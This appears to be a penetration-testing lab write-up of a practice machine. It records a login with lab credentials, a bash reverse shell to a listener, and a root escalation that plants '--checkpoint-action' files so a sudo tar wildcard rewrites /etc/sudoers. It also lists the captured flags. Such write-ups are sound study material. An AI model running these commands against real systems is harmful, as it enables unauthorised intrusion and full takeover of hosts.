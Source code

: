 # Exploitation
- Reattempted login with credentials `james:canttouchhhthiss@455152`
![[Cybersecurity-Resources/images/Pasted image 20241018210129.png]]
- Identified "Terminal" and achieved command execution on target - ran `cat local.txt` to print `fa9343d03bf9cbb2e6ae3c5af22043dc`
![[Cybersecurity-Resources/images/Pasted image 20241018210333.png]]
- Started netcat listener on port `4444` and ran `/bin/bash -i >& /dev/tcp/192.168.45.155/4444 0>&1` on target to establish reverse shell
![[Cybersecurity-Resources/images/Pasted image 20241018210748.png]]
![[Cybersecurity-Resources/images/Pasted image 20241018210800.png]]

---
# Privilege Escalation
## Local Enumeration
- Ran `sudo -l` and identified `james` can run `/usr/bin/tar -czvf /tmp/backup.tar.gz *` as root without a password
![[Cybersecurity-Resources/images/Pasted image 20241018210915.png]]
- Identified [GTFObin for `tar`](https://gtfobins.github.io/gtfobins/tar/) using `sudo`
![[Cybersecurity-Resources/images/Pasted image 20241018211535.png]]
## Privilege Escalation vector
- Navigated to `/tmp` and ran `touch payload.sh` to create `payload.sh` file, then ran following commands to add to `payload.sh` and setup backup using wildcard 
```
echo "echo 'james ALL=(root) NOPASSWD: ALL' > /etc/sudoers" > payload.sh
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh payload.sh'
```

![[Cybersecurity-Resources/images/Pasted image 20241018213255.png]]
- Ran command `sudo /usr/bin/tar -czvf /tmp/backup.tar.gz *` 
![[Cybersecurity-Resources/images/Pasted image 20241018213503.png]]
- Ran `sudo -l` to check new sudo privileges for `james`, ran  `sudo /bin/bash` to become `root`, then ran `cat /root/proof.txt` to print `d8381218cb60a519ac20d2b75b8e1fec`
![[Cybersecurity-Resources/images/Pasted image 20241018213839.png]]
---
# Trophy & Loot
`local.txt` = `fa9343d03bf9cbb2e6ae3c5af22043dc`
`root.txt` = `d8381218cb60a519ac20d2b75b8e1fec`